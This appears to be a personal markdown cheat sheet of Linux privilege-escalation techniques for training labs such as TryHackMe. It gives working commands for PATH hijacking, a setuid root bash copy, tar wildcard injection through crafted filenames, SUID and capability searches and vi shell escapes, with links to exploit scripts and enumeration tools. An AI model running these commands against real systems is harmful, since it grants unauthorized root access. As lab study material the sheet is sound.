 # Manual PrivEsc

1. check passwd and shadow file permissions and try to crate new user with admin privilage using `openssl` or `mkpasswd` in hash.txt file or cracking password

2. exploit `vi` or `vim` editor using :!sh

3. Exploiting Crontab

4. Exploiting PATH Variable
   
   there are an executable file for example test file and when you run this executable file it run a spesific command like "thm" and this execute file "test" you can run it with root privilege "SUID" then find directory that you can read and write on it like /tmp and create file "thm" and `echo /bin/bash >/tmp/thm` and  `chmod 777 thm` and `export PATH=/tmp:$PATH` and run `test` file then you should have root privilage

5. command to search the file system for `SUID/GUID` files
   
   ```bash
   find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
   ```
   
   exim version and search in exploit db

6. Visit [GTFOBins](https://gtfobins.github.io) and search for some of the program names
   
   If the program is listed with `sudo -l` as a function, you can use it to elevate privileges, usually via an escape sequence.

7. crontab
   
   - Check crontab file if there are any thing run and check file permissions
     
     ```bash
     cat /etc/crontab
     ```
   
   - Cron Jobs - PATH Environment Variable
   
   - ```bash
     cp /bin/bash /tmp/rootbash chmod +xs /tmp/rootbash
     ```
   
   - Cron Jobs - Wildcards (*) 
     like this line in `backup.sh` `tar cf /home/milesdyson/backups/backup.tgz *`
     tar or backups
     
     ```bash
     printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
     echo "" > "--checkpoint-action=exec=sh shell.sh"
     echo "" > --checkpoint=1
     /bin/bash -p
     ```
     
     or visit this website
     
      https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
     
     or this video 
     
     https://youtu.be/HXikLrFVIXc?t=2239

8. Passwords & Keys - History Files

9. Passwords & Keys - Config Files

10. Passwords & Keys - SSH Keys

11. NFS

12. Capabilities
    
    ```bash
    getcap -r / 2>/dev/null
    ```

### PrivEsc wiht MySQL

1. Use ps aux and show if MySQL service run as root

2. using User-Defined Function the steps in the scripts
   
   https://www.exploit-db.com/exploits/1518
   
   https://tryhackme.com/room/linuxprivesc#

### Using env variable hint (not PATH)

https://tryhackme.com/room/linuxprivesc#

### Automation Tools

1. [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

2. [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

3. [linpeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)

4. [linPEAS Win](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

5. [linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)   Assessing kernel exposure on publicly known exploits
